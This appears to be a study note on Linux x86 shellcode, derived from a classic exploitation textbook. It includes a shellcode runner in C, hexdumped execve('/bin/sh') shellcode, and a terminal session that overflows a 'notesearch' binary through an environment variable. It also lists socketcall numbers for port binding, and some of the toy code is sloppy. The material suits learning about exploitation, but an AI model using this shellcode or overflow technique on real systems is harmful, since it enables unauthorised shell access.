 # Shellcode

Shellcode is a special type of code injected remotely which hackers use to exploit a variety of software vulnerabilities. It is so named because it typically spawns a command shell from which attackers can take control of the affected system.

Remote shellcode is used when an attacker wants to target a vulnerable process running on another machine on a local network, intranet, or a remote network. If successfully executed, the shellcode can provide the attacker access to the target machine across the network.

Simple shellcode example: 

```c
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

```s
mov  eax, 32       ; assign: eax = 32
xor  eax, eax      ; exclusive OR
push eax           ; push something onto the stack
pop  ebx           ; pop something from the stack (what was on the stack in a register/variable)
call mysuperfunc   ; call a function
int  0x80          ; interrupt, kernel command
```

Code and a more extended explanation -> (Cocomelon Shellcode)[https://cocomelonc.github.io/tutorial/2021/10/09/linux-shellcoding-1.html]

# Shell-Spawning Shellcode

To spawn a shell, we just need to make a system call to execute the /bin/sh shell program.

Shellcode executed with nasm.

```
jet@github:~/code $ nasm exec.s
jet@github:~/code $ wc -c exec
36 exec_shell
jet@github:~/code $ hexdump -C exec
00000000 eb 16 5b 31 c0 88 43 07 89 5b 08 89 43 0c 8d 4b |..[1..C..[..C..K|
00000010 08 8d 53 0c b0 0b cd 80 e8 e5 ff ff ff 2f 62 69 |..S........../bi|
00000020 6e 2f 73 68 |n/sh|
00000024
jet@github:~/code $ export SHELLCODE=$(cat exec_shell)
jet@github:~/code $ ./getenvaddr SHELLCODE ./notesearch
SHELLCODE will be at 0xbffff9c0
jet@github:~/code $ ./notesearch $(perl -e 'print "\xc0\xf9\xff\xbf"x40')
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
[DEBUG] found a 33 byte note for user id 999
-------[ end of note data ]-------
```

The code could be shorter but this is a clear example.

# Port Binding Shellcode

Onces we have our shellcode ready, we'll need to connect it over the network for stabishing a connection between the server and the client.

*From /usr/include/linux/net.h*

```c
#define SYS_SOCKET 1 /* sys_socket(2) */
#define SYS_BIND 2 /* sys_bind(2) */
#define SYS_CONNECT 3 /* sys_connect(2) */
#define SYS_LISTEN 4 /* sys_listen(2) */
#define SYS_ACCEPT 5 /* sys_accept(2) */
#define SYS_GETSOCKNAME 6 /* sys_getsockname(2) */
#define SYS_GETPEERNAME 7 /* sys_getpeername(2) */
#define SYS_SOCKETPAIR 8 /* sys_socketpair(2) */
#define SYS_SEND 9 /* sys_send(2) */
#define SYS_RECV 10 /* sys_recv(2) */
#define SYS_SENDTO 11 /* sys_sendto(2) */
#define SYS_RECVFROM 12 /* sys_recvfrom(2) */
#define SYS_SHUTDOWN 13 /* sys_shutdown(2) */
#define SYS_SETSOCKOPT 14 /* sys_setsockopt(2) */
#define SYS_GETSOCKOPT 15 /* sys_getsockopt(2) */
#define SYS_SENDMSG 16 /* sys_sendmsg(2) */
#define SYS_RECVMSG 17 /* sys_recvmsg(2) */
```

Call number from the first argument -> net.h

So, to make socket system calls using Linux, EAX is always 102 for socketcall(), EBX contains the type of socket call, and ECX is a pointer to the socket call’s arguments. 

# Extra

Special thanks to -> Hacking: The art of Explotation and Cocomelon (Documentation)
